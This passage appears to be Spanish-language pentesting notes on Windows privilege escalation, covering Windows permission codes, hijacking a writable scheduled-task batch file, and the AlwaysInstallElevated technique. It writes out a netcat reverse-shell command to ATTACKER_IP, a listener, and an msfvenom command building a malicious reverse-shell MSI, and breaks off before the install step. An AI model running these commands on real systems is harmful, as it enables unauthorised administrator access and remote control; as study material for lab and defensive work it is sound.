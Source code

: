 #### Tipo de permisos

``` powershell
N - sin acceso
F - acceso total
M - acceso de modificación
RX - acceso de lectura y ejecución
R - acceso de solo lectura
W - acceso de solo escritura
D - acceso de eliminación
```

En este caso encontramos que la carpeta C:\task\schtask.bat\ tenemos acceso (F) y podemos crear lo que queramos dentro y ejecutarlo como root. Entonces vamos a meter este archivo en la tarea programada y así cuando se ejcute nos de una shell.

``` powershell
echo c:\tmp\nc64.exe -e cmd.exe ATTACKER_IP 4443 > C:\task\schtask.bat
```

``` powershell
nc -lvnp 4443 # listener
```

#### Ejecutamos la tarea

``` powershell
schtasks /run /tn tareavulnerable
```

Nos tendría que dar una shell.

## AlwaysInstallElevated

Windows installer files (también conocidos como archivos .msi) se utilizan para instalar aplicaciones en el sistema. Por lo general, se ejecutan con el nivel de privilegio del usuario que lo inicia. Sin embargo, estos pueden configurarse para ejecutarse con mayores privilegios desde cualquier cuenta de usuario (incluso las que no tienen privilegios). Esto podría permitirnos generar un archivo MSI malicioso que se ejecutaría con privilegios de administrador.

Este método requiere que se establezcan dos valores de registro:

``` powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

Creamos un payload .msi con msfvenom:

``` powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicioso.msi
```

Como se trata de un shell inverso, también debe ejecutar el módulo Metasploit Handler configurado en consecuencia. Una vez que haya transferido el archivo que ha creado, puede ejecutar el instalador con el siguiente comando y recibir el shell inverso:
